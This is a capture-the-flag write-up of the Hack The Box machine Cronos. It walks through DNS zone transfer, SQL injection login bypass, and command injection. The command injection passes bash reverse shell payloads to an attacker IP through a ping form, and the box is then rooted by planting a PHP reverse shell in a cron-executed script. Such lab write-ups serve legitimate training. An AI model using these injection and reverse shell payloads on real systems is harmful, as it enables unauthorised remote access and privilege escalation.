

---
metaLinks:
  alternates:
    - >-
      https://app.gitbook.com/s/qDX4NWkPelZggTpGCfyF/course-review/cyber-security-courses-journey/oscp-journey/ctf/hack-the-box/linux-boxes/cronos-medium
---

# ✅ Cronos (Medium)

## Lesson Learn



## Report-Penetration

**Vulnerable Exploit:** SQL Injection and Command Injection

**System Vulnerable:** 10.10.10.13

**Vulnerability Explanation:** The web application is vulnerable to SQL Injection which could allow us to bypass the authentication. Once we get access to the application, we detect command injection and it allows us to gain initial foothold.

**Privilege Escalation Vulnerability:** Misconfigure on Crontab

**Vulnerability Fix:** Sanitize User Input

Severity: Critical

**Step to Compromise the Host:**&#x20;

## Reconnaissance

```
└─$ nmap -sC -sV -T4 10.10.10.13  
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-03 05:21 EDT
Nmap scan report for 10.10.10.13
Host is up (0.14s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.11 seconds

```

## Enumeration

**Port 80 Apache/2.4.18 (Ubuntu)**

By going through port 80, we just found default webpage of apache. It look like misconfiguration that the IP address doesn't know what hostname it should map to. Instead just display the default webpage of apache.

.png>)

**Port 53 DNS**

Let enumerating on DNS by using **nslookup** on IP address **10.10.10.13**. As we now got the domain ns1.cronos.htb. Let add this to **/etc/hosts.**

```
> server 10.10.10.13
Default server: 10.10.10.13
Address: 10.10.10.13#53
> 10.10.10.13
13.10.10.10.in-addr.arpa        name = ns1.cronos.htb.
> ns1.cronos.htb
Server:         10.10.10.13
Address:        10.10.10.13#53

Name:   ns1.cronos.htb
Address: 10.10.10.13
```

When ever we see DNS running on TCP, we should try zone transfer. Let try a zone transfer to get a list of all hosts for **cronos.htb** domain. We can use `host` or `dig` for this. We can see two more subdomain `www` and `admin`.&#x20;

```
└─$ host -l cronos.htb 10.10.10.13                                                                                                                                    127 ⨯
Using domain server:
Name: 10.10.10.13
Address: 10.10.10.13#53
Aliases: 

cronos.htb name server ns1.cronos.htb.
cronos.htb has address 10.10.10.13
admin.cronos.htb has address 10.10.10.13
ns1.cronos.htb has address 10.10.10.13
www.cronos.htb has address 10.10.10.13
```

```
└─$ dig axfr cronos.htb @10.10.10.13

; <<>> DiG 9.16.15-Debian <<>> axfr cronos.htb @10.10.10.13
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 63 msec
;; SERVER: 10.10.10.13#53(10.10.10.13)
;; WHEN: Wed Nov 03 05:37:37 EDT 2021
;; XFR size: 7 records (messages 1, bytes 203)
```

Otherwise, we can perform bruteforce subdomain by `gobuster`. We found the same.

```
└─$ gobuster dns -d cronos.htb -w /usr/share/wordlists/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 50
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     cronos.htb
[+] Threads:    50
[+] Timeout:    1s
[+] Wordlist:   /usr/share/wordlists/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt
===============================================================
2021/11/03 06:51:16 Starting gobuster in DNS enumeration mode
===============================================================
Found: www.cronos.htb
Found: admin.cronos.htb
                                   
===============================================================
2021/11/03 07:07:26 Finished
===============================================================
```

Let add those two more subdomains to `/etc/hosts`. Let browsing with those hostname. **www.cronos.htb, admin.cronos.htb, cronos.htb.**

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## Exploitation

First thing come to my mind when I see login page, I will perform SQL Injection to bypass auth. Let start the burp and test with default credentials admin/admin admin/password but it doesn't work.

Sending the Login request to Intruder to perform SQL Injection with a list.

.png>)

As we can there are some status codes are 200 and 302. On 302 which mean it redirects to somewhere. Check the response content, it actually redirect to **welcome.php** page.

.png>)

.png>)

Let start manually inject SQL payload on login webpage with username field: **`' or 1=1-- -`** and password field can type anything.

.png>)

We are now bypass authentication and successfully login. There are 2 options on the page which are traceroute and ping. Let start perform command injection.

.png>)

### Command Injection

Seem like it's vulnerable to command injection because it returns ping result and user-id.&#x20;

.png>)

By intercept the traffic, we can see there are 2 fields that we can inject command.

```
command=ping -c 1&host=127.0.0.1; id
```

.png>)

Let start our netcat listener on port 4444 and inject revershell payload into command. I have executed below script but it doesn't work.

```
Before URL encode 
command=bash -i >& /dev/tcp/10.10.14.31/4444 0>&1

After URL encode
command=bash+-i+>%26+/dev/tcp/10.10.14.31/4444+0>%261
```

I have checked the help function of bash, we can use -c for execute command options.

```
Shell options:
        -ilrsD or -c command or -O shopt_option         (invocation only)
        -abefhkmnptuvxBCHP or -o option
Type `bash -c "help set"' for more information about shell options.
Type `bash -c help' for more information about shell builtin commands.
```

Then I have tired to execute with -c option, it's working now.

```
Before URL encode
command=bash -c 'bash -i >& /dev/tcp/10.10.14.31/4444 0>&1'

After URL encode
command=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.31/4444+0>%261'
```

.png>)

.png>)

To improve our shell to fully interactive (Tab to auto complete).

.png>)

## Privilege Escalation

### Auto script php

First thing first, I always run sudo -l but it doesn't work this time. I have found crontab which set to schedule run.

```
www-data@cronos:/$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

.png>)

By checking the file permission, seem like we have write permission. So we have 2 ways to do. First, we can modify the script and inject reverse shell into the script. Other way, copy PHP reverse shell and save it as artisan to replace existing file.

```
www-data@cronos:/var/www/laravel$ ls -l artisan 
-rwxr-xr-x 1 www-data www-data 1646 Apr  9  2017 artisan
```

Let start inject our PHP reverse shell into existing file artisan.

```
$sock=fsockopen("10.10.14.31",1234);
exec("/bin/bash -i <&3 >&3 2>&3");
```

.png>)

Let start our netcat listener on port 1234 and wait for sometimes, our reverse shell pop up.

.png>)
